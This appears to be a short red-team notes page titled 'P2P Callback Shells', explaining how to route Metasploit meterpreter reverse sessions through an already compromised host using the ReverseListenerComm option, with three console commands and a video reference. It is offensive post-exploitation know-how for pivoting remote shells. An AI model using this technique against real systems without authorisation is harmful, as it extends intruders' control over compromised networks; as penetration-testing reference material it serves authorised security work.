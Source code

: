 # P2P Callback Shells

Make the meterpreter connections act as p2p (peer-to-peer) without the need of SMB pipe meterpreter payloads even if it's not windows at all. ReverseListenerComm will tunnel our meterpreter sessions

```
msf > set ReverseListenerComm <session_id>

msf > set LHOST <compromised_target_IP>

msf > run
```

## References

- [Tactics Tuesday | Mass Meterpreter Single Channel](https://www.youtube.com/watch?v=IsrWJL0gIlg)